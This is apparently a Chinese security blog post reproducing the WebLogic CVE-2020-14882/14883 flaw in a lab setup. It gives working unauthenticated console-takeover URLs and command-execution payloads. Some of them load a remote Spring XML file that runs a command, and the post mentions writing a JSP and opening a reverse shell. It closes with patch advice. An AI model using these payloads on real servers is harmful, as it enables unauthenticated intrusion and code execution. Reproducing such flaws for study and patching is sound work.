\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/q0iSMBcp5CSJL3mV4Favbw)

![](https://mmbiz.qpic.cn/mmbiz_png/Q888wEfbgqGV26Je0VsREAgbDOribLNzBXnqbnDu7kWZ5DoCVplMiax6aMUg8s9KBYnbMZPszd5WydpbViaicbt5LA/640?wx_fmt=png)

点击上方 “公众号” 可以订阅哦！

**0x01 前言**

_1、漏洞说明_  
远程代码执行漏洞 （CVE-2020-14882）POC 已被公开，未经身份验证的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大。  
_2、影响版本：_  
Oracle WebLogic Server，版本 10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。  
_3、漏洞链接：_  
/console/images/%252E%252E%252Fconsole.portal  
_4、环境准备_  
jdk1.8.0\_171  
fmw\_12.2.1.4.0\_wls\_lite\_generic.jar  
_5、相应环境工具包获取方法_  
关注公众号回复 “**Weblogic\_14882**” 自行下载  

****![](https://mmbiz.qpic.cn/mmbiz_png/Ljib4So7yuWgiazacZwcozhIIJkbibEWTcfRmJfpFw8RCkn9iaZOyT4YJ5JCqCIvRvCLC5RznuKbdPrlfXuXPkevEQ/640?wx_fmt=png)****

**0x02 环境搭建**

**1）weblogic 安装**

用管理员权限运行

```
java -jar fmw\_12.2.1.4.0\_wls\_lite\_generic.jar
```

**遇到的第一个问题（图片来源于网络，自己的没有截图）**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCr1jDQjhOsPmjt2aia94AibjSyqbyayYkkfy9d07dk8hgajVr6wTykYAAA/640?wx_fmt=png)

**此安装程序必须使用 Java 开发工具包 (JDK) 执行, 但 C:\\Program Files\\Java\\jre1.8.0\_172 不是有效的 JDK Java 主目录。**
===============================================================================================

解决办法：

**先进入你电脑已安装好的 jdk \\bin 目录下 然后** **java -jar** **执行你的 jar 包就可以了**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrFs17KHECCmPI2hIDFrEdfcS7cF7l0vdBibOnxK1Od46hSbh0B1hVoYg/640?wx_fmt=png)

之后会是这个酱紫（这部分傻瓜式安装）![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrIU8oRpOxR93sXg6BkJFpoH1wkqfRjLzdQrict8TtACYHicQjXLchWYCg/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrCj1xlscHvHcHT45W3f39Ssib2IeFpdNdpIR87cqHGp3PrbOANDHuBEQ/640?wx_fmt=png)

**2）创建域**

全部勾选  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCr1xN5ibenUJHhNK5aA12KAI6uRO3Hqfyldj603eITXaB4srMicJX5FMtQ/640?wx_fmt=png)

设置账号密码完了选择生产

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrSEIQf70uyWNHOH4Y2QvibVCxvQ07iaMeTltCVKWI9bRkYOVLGq5gSLfA/640?wx_fmt=png)

高级配置：全部选中

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrOIjsWjd7Fbp7O9EmKmJTqiaQlIiaQY7xkVJ6jibWnicib6Gv49MWL6qBDnw/640?wx_fmt=png)

设置端口号 ---> 填写账号密码 ---> 一直下一步

在这创建  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrqt2RLdAr41wmMfUziak6iavqor4a0QmtW8gBzbYnuQbfOOfpGz8NZDqQ/640?wx_fmt=png)

等待一会继续下一步 ----->OK！！  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrISQHAjKFqryctVITBGKIEh2kUPexAn5Jbj1ODd1JXBIEMRVlTY1grg/640?wx_fmt=png)

#### **3、启动 Weblogic**

C:\\Oracle\\Middleware\\Oracle\_Home\\user\_projects\\domains\\base\_domain 找到 startWebLogic.cmd 点击启动

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrbaZcXoKCaoOWSCqfK5Zj6z8TD1wzNJl3V0b7DuDRx4vDVW27gkbquQ/640?wx_fmt=png)

启动后输入之前设置的账号密码，访问地址如下表示启动成功：

```
http://192.168.142.132:7001/console
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrwPddsWB4ERYoQlZ4cZQvK7ACibRibKSqnPe9qia1CYS2UlLkVhDpK1NVg/640?wx_fmt=png)  

**0x03 漏洞复现**  

构造 PoC，可以直接未授权接管后台：  

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase\_domain%2CType%3DDomain%22%29
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrYsnkYYU7Jumd53yR0xmcvW7gpDSCESniaicSCWvfeK0S6u3BJ4BQatIQ/640?wx_fmt=png)

命令执行 -----> 疯狂弹计算器![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrIU8oRpOxR93sXg6BkJFpoH1wkqfRjLzdQrict8TtACYHicQjXLchWYCg/640?wx_fmt=png)

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22)
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrbjGLO1dR7f04MCWzOCsQb9picWrZTYibW4xW7HJur7RRc1iciamOhh0jjw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrZaiaPvebUdTNLtX2oyGEHbR6fU56nwiauicBH0Cqbcmlccc5seSSvI2uw/640?wx_fmt=png)

通过 FileSystemXmlApplicationContext() 加载并执行远端 xml 文件：

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://xx.x.xx.x/111.xml")
```

PoC 代码：

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><!\[CDATA\[calc\]\]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrAiaO0CK1noaUz8L4OOPX1Y6SwTqPGXlLqwgRicibR54SlDhomOV8IAYYQ/640?wx_fmt=png)

通过此方法，windows 可以往 images 路径下写文件，写入路径为：

```
../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCrVWKj2SCbXBrQklTOFLQ5tmQuw4PQpwZB6WxIPlJAn2n45CQTkuj26Q/640?wx_fmt=png)

Linux 下可直接反弹 shell：(修改相应的命令就可以)  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCr7wBJbw1r09QSrdnRHjx2gyjGGLRAtKsWObwhiajmwjjnjN4pAIxec6A/640?wx_fmt=png)

通过 ClassPathXmlApplicationContext() 也可以达到相同的效果：  

```
http://192.168.142.132:7001/console/images/%252E%252E%252Fconsole.portal?\_nfpb=true&\_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://1.x.x.x/111.xml")
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTE5NBxWBaiamaz8Xp7NXFhCr7zic5VsJNNh4yicEYnalA4frQpF0L4KtgkslksPCGw6icR3tlxZsDrCgQ/640?wx_fmt=png)

**0x04 修复建议**

安装官方最新补丁进行升级：

https://www.oracle.com/security-alerts/cpuapr2020.html

**0x05 参考链接**

```
https://mp.weixin.qq.com/s?\_\_biz=MzkwNzEzMTg3MQ==&mid=2247483846&idx=1&sn=8dd2b7770663e3458117e888208f7f56&chksm=c0dcaf76f7ab266016a6fe868f655ffe75658fa127d223b24a1efe55e056d76a3a600d8858c7&mpshare=1&scene=1&srcid=1102ywVU1T9jszU6Ob0QVVEd&sharer\_sharetime=1604285148881&sharer\_shareid=9dc1efbf8ece2cc4df398706cc9ecfdb&key=e3bce42fc7df4344d65d653594e1f68103b10177a8895a4a8eb8a02e54849be73c323f4b70cc74487913bdf79dc7a301023bf30bb9f7926f11c897265b64b1ff5ef019c5c67026d4e92176a5e331823bce1e62381b911e2521982e632b770bcd5f671a3d582cbd925c301205c84878cbb22c4c1e1d313925c48c0f1899695d01&ascene=1&uin=MTQ2MTgwODgyNQ%3D%3D&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AzUNt%2FD5nS1aMRRmh9Ktu8s%3D&pass\_ticket=9MsGm%2BS%2FHqh9sqwul2tehaexdZX1X0vuBaa%2F1tUF9hYzG1Aln%2Ba8C9BBEuucM48A&wx\_header=0
https://mp.weixin.qq.com/s?\_\_biz=Mzg3MDE5OTIwNw==&mid=2247486185&idx=1&sn=6376f69f496f3458c1e6a9de3be5ed68&chksm=ce903021f9e7b9372c5bbc2cde98e9a607bdc915630c55fec8553debf78033a35575b199f386&mpshare=1&scene=1&srcid=1102YvHDsoy2PpA7jHmFG3QJ&sharer\_sharetime=1604279921871&sharer\_shareid=9dc1efbf8ece2cc4df398706cc9ecfdb&key=dab8500b28863cd492aad5409edcdd03897b62f8571f08da13f3ac74bc095b8d8029239bde2316cafed94155e3d8bc1515e72568e0e2f45dd215fcfefc4fbd597db345e82093639bd2c22b251e802f52526002de2df7f959538a0a9ccc94e919bf4f497e678c4b6efa5aaea5f799f8fe5bcb4c0baa62b18ea12f592308636e4d&ascene=1&uin=MTQ2MTgwODgyNQ%3D%3D&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=A%2BPzCdeFOCXfBMEe5uv1Xsg%3D&pass\_ticket=9MsGm%2BS%2FHqh9sqwul2tehaexdZX1X0vuBaa%2F1tUF9hYzG1Aln%2Ba8C9BBEuucM48A&wx\_header=0
https://blog.csdn.net/qq\_37798548/article/details/90255995
```

文章总结

  

  

  

希望对大家有所帮助![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vyloBZaIwMl8RJsCLfrYB8czic99KraibMaEOI8oEcadiaR0suRfZH23fQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTFBCbwb6aZ1lmgLIOCfeTqibj53xIewIziarLwz6ERplWgBDMjWkfXIWGtSR9CpgRNtPtv86nHpAqjA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTFBCbwb6aZ1lmgLIOCfeTqibj53xIewIziarLwz6ERplWgBDMjWkfXIWGtSR9CpgRNtPtv86nHpAqjA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/7D2JPvxqDTHK1Jibd4DcSy9t0aNQ4CNYHRHZjzPdb8bamhf1QnU8c7ZbII854PGDWmvpsrC25jAQxVBZibsia2SXA/640?wx_fmt=gif)  

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！